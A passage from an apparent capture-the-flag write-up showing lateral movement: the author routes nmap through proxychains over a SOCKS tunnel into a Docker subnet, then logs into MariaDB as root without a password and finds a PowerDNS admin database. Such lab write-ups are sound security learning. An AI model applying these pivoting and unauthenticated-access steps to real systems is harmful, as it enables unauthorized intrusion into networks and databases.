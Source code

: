 I added a line to `/etc/proxychains4.conf` to be able to use `proxychains`:

```
socks5 127.0.0.1 9050
```

I could then reach the Docker subnet from Kali including the host:

```shell
└─$ proxychains -q nmap 172.18.0.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-10 20:41 CEST
Nmap scan report for 172.18.0.1
Host is up (0.053s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
873/tcp  open  rsync
3000/tcp open  ppp
3306/tcp open  mysql
8081/tcp open  blackice-icecap

Nmap done: 1 IP address (1 host up) scanned in 51.93 seconds
```

## PowerDNS

Trying to login to MariaDB as root without a password works:

```shell
└─$ proxychains -q mysql -h 172.18.0.1 -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 63
Server version: 11.3.2-MariaDB-1:11.3.2+maria~ubu2204 mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

There's a non-default database, `powerdnsadmin` used by PowerDNS:

```shell
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| powerdnsadmin      |
| sys                |
+--------------------+
5 rows in set (0.017 sec)
```
